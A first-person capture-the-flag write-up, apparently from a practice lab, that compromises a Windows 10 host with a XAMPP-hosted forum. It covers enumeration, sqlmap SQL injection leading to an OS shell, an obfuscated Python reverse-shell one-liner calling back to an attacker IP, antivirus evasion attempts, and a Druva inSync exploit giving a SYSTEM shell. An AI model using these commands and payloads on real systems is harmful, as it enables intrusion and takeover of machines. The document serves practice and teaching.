I will report the TCP result of open services running on the machine:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ./nmap 172.16.1.13
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 02:18 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.16.1.13
Host is up (0.00050s latency).
Not shown: 1179 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
445/tcp open  microsoft-ds
Nmap done: 1 IP address (1 host up) scanned in 18.34 seconds
```

And same for the UDP counterpart:

```
root@DANTE-WEB-NIX01:/tmp# ./nmap -sU -F 172.16.1.13

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-02 02:31 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:03 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 172.16.1.13
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00040s latency).
All 119 scanned ports on 172.16.1.13 are open|filtered
MAC Address: 00:50:56:B9:02:8E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
root@DANTE-WEB-NIX01:/tmp#
```

Ok no UDP are open which means we can challel all our efforts on the TCP only.

* * *

## SMB:

I suggest to start by enumerating the Samba service running on the port 445/tcp:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains enum4linux-ng -A 172.16.1.13
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 172.16.1.13
[*] Username ......... ''
[*] Random Username .. 'uoieksvj'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on 172.16.1.13    |
 ====================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:139 
<--socket error or timeout!
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 ==========================================================
|    NetBIOS Names and Workgroup/Domain for 172.16.1.13    |
 ==========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ========================================
|    SMB Dialect Check on 172.16.1.13    |
 ========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ==========================================================
|    Domain Information via SMB session for 172.16.1.13    |
 ==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DANTE-WS01
NetBIOS domain name: ''
DNS domain: DANTE-WS01
FQDN: DANTE-WS01
Derived membership: workgroup member
Derived domain: unknown

 ========================================
|    RPC Session Check on 172.16.1.13    |
 ========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ==============================================
|    OS Information via RPC for 172.16.1.13    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1903'
OS build: '18362'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 51.80 seconds
```

And here the tools identified this as the DANTE-WS01 host, a Windows 10 build 18362 not domain joined.

Seems like no samba shares are visible as anonymous user:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains smbclient -L //172.16.1.13
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:445  ...  OK
Password for [WORKGROUP\root]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

I don't think we can do much from an "anonymous" standpoint on SMB, we may want to come back as soon we find out a valid set of credentials.

* * *

## HTTP/HTTPS:

Trying to surf manually to the webpage we are still in front of a XAMPP webserver:



Were again the phpmyadmin is only accessible from the inside only:



And phpinfo identify this as the hostname we already know by confirming that this is a WIndows10 machine:



I will fireup Dirsearch and check for posible hidden websites on the machine:

```
[11:46:17] 200 -  777B  - /Webalizer/
[11:46:34] 200 -    1KB - /cgi-bin/printenv.pl
[11:47:09] 200 -  769B  - /xampp/
```

Ok so starting by drilling down seems like xampp is just a void leftover:

Same for Webalizer



So I went back and decided to to another enumeration but this time using another wordlist and a hidden folder appeared this time:



And surfing to the webpage this seems like an old forum used internaly like an old intranet:



* * *

## Attacking the Website:

I will start by checking if that login function is susceptible to SQLi via SQLMAP and i will use the Forms function that targets all the login and input text forms:



In the background I decided to register a dummy user to login into portal and found out that we can message other users on the portal, so trying to search for Administrator:



And more specifically the send message could be vulnerable to SQLi?



As we see it uses the message.php?id=XXXXX

I will update SQLMAP to point to this instead, may be that the site is only accessible via account and not as guest user but SQLMAP support even cookies fort that fuction.

Another function that can be targeted is the user search function which could be even more interestign that the message.php cause it's a free text which could be more difficult to sanitize:



Anyway seems like the scanner identfied the backend DB as MySQL and Id is vulnerable:







The performances are kinda slow via socks proxy server but we might want to test the search.php function as well which seems not vulnerable:



Lastly if we try to send a message to a user there is a Read message function that can also be tested aswell:



But it's not:



Which means we have to go back to to message.php and after some payload tuning to make as less test request as possible we got it dumping all the db:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains sqlmap -u "http://172.16.1.13/discuss/message.php?id=1" --batch --dbs --cookie "PHPSESSID=9batv5pkd08h2sbj5r61h2fn5p" --dbms=mysql --random-agent --tamper=between,randomcase --flush-session
```



The test DB is empty;



And in the tech_forum DB:

Unforunately seems like the users  are only holding the ID:



I will drill sown the other DB and check for results, maybe someone letf some credentials in chats...







So far nothing interesting so I decidec to try to gain a revshell via SQLMAP and apparently we suddeded:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains sqlmap -u "http://172.16.1.13/discuss/message.php?id=1" --batch --cookie "PHPSESSID=9batv5pkd08h2sbj5r61h2fn5p" --dbms=mysql --random-agent --tamper=between,randomcase -D tech_forum --os-shell
```



And it's working:



next we can try to send a reverse shell via sqlmap as powershell and wait for the shell to spawn in our NC:


Seems like the AV is blocking out shell. I will try to use villain to obfuscate this shell instead. So I will use this low quality webshell to get atleast one flag:



Nice we got a flag from Gerald username but what about in the Administrator home? Unforutnately we don't have access so I checked and apparently python 2.7 is accessible on the machine. And perl as well from the XAMPP:



Let's try this one instead?

```
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('172.16.1.100', 4477)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

But it's failing, so I decided to check the last resort and knowing that XAMPP supports even perl but we need to find the perl.exe location:



But it's not working so I will try to upload nc.exe and use that way, So first I create a temp folder in C:

```
os-shell> mkdir C:\Temp
do you want to retrieve the command standard output? [Y/n/a] Y
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:80  ...  OK
No output
os-shell> dir "C:\"
do you want to retrieve the command standard output? [Y/n/a] Y
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.13:80  ...  OK
command standard output:
---
Volume in drive C has no label.
 Volume Serial Number is B19F-120D

 Directory of C:\

13/07/2020  06:39    <DIR>          PerfLogs
15/07/2020  06:40    <DIR>          Program Files
13/07/2020  06:42    <DIR>          Program Files (x86)
27/07/2020  06:42    <DIR>          Python27
02/09/2023  05:14    <DIR>          Temp
13/07/2020  06:17    <DIR>          Users
13/04/2021  21:24    <DIR>          Windows
13/07/2020  05:23    <DIR>          xampp
               0 File(s)              0 bytes
               8 Dir(s)   4,721,688,576 bytes free
---
os-shell>
```

Unfortunately seems like that nc.exe get's blocked by AV:



So here i checked the uploaded shells by SQL and found one that let me upload a file under root XAMPP Apache web directory:



And now we can see that file is there:



And lastly we should be able to invoke a revshell via netcat back to out machine:



Et voila!



And no other NIC are attached which means we can leave this machine when we are ready:



* * *

## PE:

Now to make my life easier I will upload a copy of Winpeas.bat and check what we can find as PE to escalate to Admin:

```
powershell wget 172.16.1.100:9000/winPEAS.bat -o winPEAS.bat
```



I will post only the interesting stuff from the script to keep it slimmer:

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 DANTE-WS01
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18363 N/A Build 18363
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          gerald
Registered Organization:   
Product ID:                00331-20309-59368-AA829
Original Install Date:     13/07/2020, 05:46:40
System Boot Time:          01/09/2023, 20:40:30
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume3
System Locale:             en-us;English (United States)
Input Locale:              00004009
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,988 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,277 MB
Virtual Memory: In Use:    2,522 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\DANTE-WS01
Hotfix(s):                 6 Hotfix(s) Installed.
                           [01]: KB4552931
                           [02]: KB4497165
                           [03]: KB4517245
                           [04]: KB4560959
                           [05]: KB4561600
                           [06]: KB4560960
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.1.13
                                 [02]: fe80::ac2a:e8fd:607f:5d3a
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description      HotFixID   InstalledOn  
http://support.microsoft.com/?kbid=4552931  Update           KB4552931  7/13/2020    
http://support.microsoft.com/?kbid=4497165  Update           KB4497165  7/13/2020    
http://support.microsoft.com/?kbid=4517245  Update           KB4517245  7/13/2020    
http://support.microsoft.com/?kbid=4560959  Security Update  KB4560959  7/13/2020    
http://support.microsoft.com/?kbid=4561600  Security Update  KB4561600  7/13/2020    
http://support.microsoft.com/?kbid=4560960  Update           KB4560960  7/13/2020    


PS default transcript history

Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is B19F-120D

 Directory of C:\Users\gerald\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

13/04/2021  22:23               778 ConsoleHost_history.txt
               1 File(s)            778 bytes
               0 Dir(s)   4,724,809,728 bytes free

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Common Files
Common Files
CUAssistant
Druva
Internet Explorer
Internet Explorer
Microsoft.NET
ModifiableWindowsApps
rempl
UNP
VMware
Windows Defender
Windows Defender
Windows Defender Advanced Threat Protection
Windows Mail
Windows Mail
Windows Media Player
Windows Media Player
Windows Multimedia Platform
Windows Multimedia Platform
Windows NT
Windows NT
Windows Photo Viewer
Windows Photo Viewer
Windows Portable Devices
Windows Portable Devices
Windows Security
WindowsPowerShell
WindowsPowerShell


User Name         SID                                           
================= ==============================================
dante-ws01\gerald S-1-5-21-3659841024-4065501111-2845508916-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                        
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only                          
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

ERROR: Unable to get user claims information.
```

Ok not much but will start by trying to get all the info from pwershell history:

```
PS C:\Temp> cat C:\Users\gerald\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat C:\Users\gerald\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
wget 10.10.14.2:8000/sdelete64.exe -o sdelete64.exe
sdelete64 -c c:#
sdelete64 -c c:
New-Item HKLM:#SOFTWARE#Policies#Microsoft#Windows -Name WindowsUpdate
New-Item HKLM:\SOFTWARE\Policies\Microsoft\Windows -Name WindowsUpdate
New-Item HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate -Name AU
New-ItemProperty HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU -Name NoAutoUpdate -Value 1
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management' -Name ClearPageFileAtShutdown -Value 1
powercfg /H off
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Power' -Name HibernateEnabled -Value 0
control
dism /online /Cleanup-Image /StartComponentCleanup
cleanmgr.exe
sdelete -z c:
shutdown /s /t 0
PS C:\Temp>
```

Ok not that much and apparenlty gerald doesn't have that much priviledges anyway but I see a strange Program installed where I stumbled uplon in a particular CTF and it hav a PE vector to Admin: https://www.exploit-db.com/exploits/49211

We have to check the running version matches:



Indeed is 6.6.3 then we should be able to use the Powershell script to make it work! I will upload it first:



Now to make it work we can adapt it to out need and change the command to invoke  a revshell back to our machine and not leave too many traces since the default add a user to the windows.



And now calling the script:

```
PS C:\temp> ./druva.ps1	
./druva.ps1
22
4
4
258
PS C:\temp>
```

Should invoke a revshell as NT System:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# nc -lvnp 7777 
listening on [any] 7777 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.110.3] 31186
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> whoami
whoami
nt authority\system
PS C:\WINDOWS\system32> cd ..
cd ..
cPS C:\WINDOWS> d ..
cd ..
PS C:\> cd Users
cd Users
PS C:\Users> ls
ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       13/07/2020     06:20                Administrator                                                         
d-----       08/01/2021     04:41                gerald                                                                
d-r---       13/07/2020     06:41                Public                                                                


PS C:\Users> cd Administrator
cd Administrator
PS C:\Users\Administrator> ls
ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---       13/07/2020     06:17                3D Objects                                                            
d-r---       13/07/2020     06:17                Contacts                                                              
d-r---       13/07/2020     06:53                Desktop                                                               
d-r---       13/07/2020     06:17                Documents                                                             
d-r---       13/07/2020     06:17                Downloads                                                             
d-r---       13/07/2020     06:17                Favorites                                                             
d-r---       13/07/2020     06:17                Links                                                                 
d-r---       31/07/2020     07:08                Music                                                                 
d-r---       13/07/2020     06:20                OneDrive                                                              
d-r---       13/07/2020     06:18                Pictures                                                              
d-r---       13/07/2020     06:17                Saved Games                                                           
d-r---       13/07/2020     06:18                Searches                                                              
d-r---       13/07/2020     06:17                Videos                                                                


PS C:\Users\Administrator> cd Desktop
cd Desktop
PS C:\Users\Administrator\Desktop> dir
dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       08/01/2021     04:41             33 flag.txt                                                              
-a----       13/07/2020     06:18           1450 Microsoft Edge.lnk                                                    


PS C:\Users\Administrator\Desktop> cat flag.txt
cat flag.txt
DANTE{Bad_pr4ct1ces_Thru_strncmp}
```

Now that we got last flag we can move forward.

* * *

## Extra:

Now here I had to check for tips and apparently there is another way to make this work: https://www.exploit-db.com/exploits/48512

Apparently this forum under /discuss holds a working exploit that helps us load a working php webshell during register.php user creation:




And now we should be able to get a working shell under /discuss/ups/shell.php

The result it's the same as doing via SQLMAP anyway.